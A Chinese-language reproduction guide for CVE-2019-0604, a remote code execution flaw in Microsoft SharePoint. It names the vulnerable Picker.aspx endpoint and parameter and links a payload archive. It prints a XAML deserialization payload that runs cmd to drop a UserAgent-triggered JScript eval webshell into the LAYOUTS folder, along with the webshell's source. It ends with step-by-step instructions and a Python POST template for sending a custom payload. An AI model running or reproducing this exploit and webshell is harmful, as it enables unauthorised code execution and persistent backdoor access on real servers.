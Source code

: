 （CVE-2019-0604）Microsoft SharePoint 远程代码执行漏洞
======================================================

一、漏洞简介
------------

Microsoft
SharePoint是美国微软（Microsoft）公司的一套企业业务协作平台。该平台用于对业务信息进行整合，并能够共享工作、与他人协同工作、组织项目和工作组、搜索人员和信息。

Microsoft SharePoint
远程代码执行漏洞（CVE-2019-0594、CVE-2019-0604，高危）：Microsoft
SharePoint软件无法检查应用程序包源标记时触发该漏洞。攻击者可在SharePoint应用程序池和SharePoint服务器中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016SharePoint Foundation 2013 SP1harePoint Server 2010 SP2SharePoint Server 2019

三、复现过程
------------

ItemPicker Web 控件实际上从来没有在一个 .aspx
页面中使用过。但是看看它基类型的用法，EntityEditorWithPicker，说明在
/\_layouts/15/Picker.aspx 应该有一个 Picker.aspx 文件使用了它。

该页面要求使用选择器对话框的类型通过 URL 的 PickerDialogType
参数的形式提供。在这里，可以使用以下两种 ItemPickerDialog
类型中的任何一种：

    · Microsoft.SharePoint.WebControls.ItemPickerDialog in             Microsoft.SharePoint.dll
    · Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog in Microsoft.SharePoint.Portal.dll

利用第一种 PickerDialogType 类型

当表单提交 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的值以 "\_\_" 为开头时(类似于"\_dummy")，

EntityInstanceIdEncoder.DecodeEntityInstanceId(string)
处的断点将显示以下情况：而调用另外一种 ItemPickerDialog
类型时，函数调用栈只是在最上面的两个有所不同。

这表明 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的数据最终出现在了
EntityInstanceIdEncoder.DecodeEntityInstanceId(string) 中。
剩下的只需要拷贝实例 ID 和构造一个 XmlSerializer 的 payload 就可以了。

**完整POST以及具体参数如下：**

URL：`/Picker.aspx?PickerDialogType=控件的程序集限定名`

参数：
`ctl00%24PlaceHolderDialogBodySection%24ctl05%24hiddenSpanData=payload`

实际上还需访问Picker.aspx附带的其它参数，测试我不附带其它参数时提交表单是失败的。

poc
---

> https://download.0-sec.org/Web安全/Microsoft
> SharePoint/CVE20190604-Payload.7z

**解说k8gege的cve-2019-0604-exp.py**

老实说k8gege的py脚本有点花哨，一大堆的16进制字符串，分成 payload1,2,3,
好坏呀

python脚本远程post的payload,反序列化之后是一个xml数据体

    <ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:System="clr-namespace:System;assembly=mscorlib"
    xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd</System:String>
            <System:String>/c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" </System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    </ResourceDictionary>

![3.png](./resource/(CVE-2019-0604)MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

即远程执行echo命令，向服务器SharePoint的模板layouts目录写了一个up.aspx文件

    cmd /c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" 

生成了一个K8飞刀专用UA一句话木马.asxp，OK，shell到手

    <%@ Page Language="Jscript" %>
    <%
    var pwd="tom";
    var uastr=Request.UserAgent;
    if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) 
    {
        var code=uastr.Replace(pwd+"===","");
        eval(code,"unsafe"); 
    };
    %>

### 结合k8的poc构造我们自己的payload

-   1、 下载编译好的程序，解压运行CVE20190604Forms.exe

-   2、在Cmd文本框加输入命令，点击"Update XML"按钮，会将命令合并为xml

-   3、点击"EncodeEntity"，程序将xml字符串序列化为对象，并触发执行payload,
    序列化后的字符串显示在\"payload\"文本框中

```{=html}
<!-- -->
```
    __cp087135009700370047005600d600e2004400160047001600e20035005600270067009600360056003700e2009400e600470056002700e6001600c600e2005400870007001600e60046005600460075002700160......

-   4、 \"\_\_cp\....\" 这些字符串就是payload了，复制到
    cve-2019-0604-exp.py中，修改替换掉原来k8的payload，

-   5、向Picker.aspx提交payload时，需要附带的其它参数，可通过Burp代理工具，获取一下相关的参数，再将payload值传给
    ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData

```{=html}
<!-- -->
```
    ...

    values = {
        '__REQUESTDIGEST':YOUR_REQUESTDIGEST,
        '__EVENTTARGET':'',
        '__EVENTARGUMENT':'',
        '__spPickerHasReturnValue':'',
        '__spPickerReturnValueHolder':'',
        '__VIEWSTATE':YOUR_VIEWSTATE,
        '__VIEWSTATEGENERATOR':'',
        'ctl00$PlaceHolderDialogBodySection$ctl07$queryTextBox':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData':**YOUR_PayloadData**,
        'ctl00$PlaceHolderDialogBodySection$ctl05$OriginalEntities':'<Entities />',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityKey':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityDisplayText':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$downlevelTextBox':'&#160;',
        '__CALLBACKID':'ctl00$PlaceHolderDialogBodySection$ctl07',
        '__CALLBACKPARAM':';#;#11;#;#;#',
        '__EVENTVALIDATION':YOUR_EVENTVALIDATION
    }

    data = urllib.urlencode(values)

    ...

-   6、运行py脚本, good luck!!!

参考链接
--------

> https://github.com/boxhg/CVE-2019-0604/
